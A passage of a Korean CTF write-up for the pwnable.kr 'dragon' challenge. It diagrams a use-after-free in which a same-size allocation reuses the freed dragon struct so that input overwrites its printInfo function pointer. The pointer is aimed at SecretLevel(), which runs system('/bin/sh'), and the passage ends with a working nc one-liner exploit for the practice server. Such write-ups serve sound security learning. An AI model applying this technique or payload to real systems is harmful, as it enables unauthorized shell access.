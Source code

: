 같은 크기로 할당했기 때문에  
방금 free() 했었던 dragon 자리에 그대로 할당될 것입니다.  
```
.----------------.---------------.-------.-------.---------.---------------.
|  printInfo[4]  |    info[4]    | hp[1] |heal[1]|   [2]   |   damage[4]   |
'----------------'---------------'-------'-------'---------'---------------'
```
위에 모습이 dragon 의 구조체입니다.  
그 자리에 데이터 입력을 받으면  
```
.----------------.---------------.-------.-------.---------.---------------.
|      AAAA      |    info[4]    | hp[1] |heal[1]|   [2]   |   damage[4]   |
'----------------'---------------'-------'-------'---------'---------------'
```
printInfo 구조체 멤버를 조작할 수 있습니다.  
  
그럼 타겟이 어디냐  
```
     1  void __cdecl SecretLevel()
     2  {
...
    14    system("/bin/sh");
    15  }
```
SecretLevel() 안에 좋은 타겟이 있었다.  

### exploit

```
(python -c 'print "2\n2\n1\n3\n3\n2\n3\n3\n2\n3\n3\n2\n3\n3\n2\n\xBF\x8D\x04\x08"';cat) | nc pwnable.kr 9004
```
